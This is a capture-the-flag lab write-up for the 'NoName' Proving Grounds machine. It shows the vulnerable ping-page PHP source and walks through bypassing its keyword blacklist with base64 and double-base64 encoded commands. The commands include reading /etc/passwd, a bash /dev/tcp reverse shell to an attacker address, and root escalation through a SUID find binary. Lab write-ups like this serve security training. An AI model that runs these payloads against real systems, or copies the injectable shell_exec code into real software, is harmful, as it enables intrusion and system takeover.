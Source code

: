 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`.

Checking the`admin` endpoint only shows pictures posted with no additional functionality, the `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](\assets\images\noname-pg\2022-07-27-15-23-21.png)

![superadmin](\assets\images\noname-pg\2022-07-27-15-41-18.png)

Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

Trying command injection with `sleep` command. I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting to a five second delay in the response. 

Now that we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked. I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

Looks like there are blacklisted characters and binaries, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a `base64` encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
```bash
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
```

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

And it worked, so I tried with a reverse shell 

```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following `base64` encoded reverse shell payload still did not work:

```bash 
|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx'|base64 -d|bash
``` 

Which is really weird, So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the `base64` decoded payload instead of executing it with bash, and I got the following response
           
![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

Looks like it is not printing the whole `base64` encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked 

```bash
|echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64 -d|base64 -d|bash`
```

![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

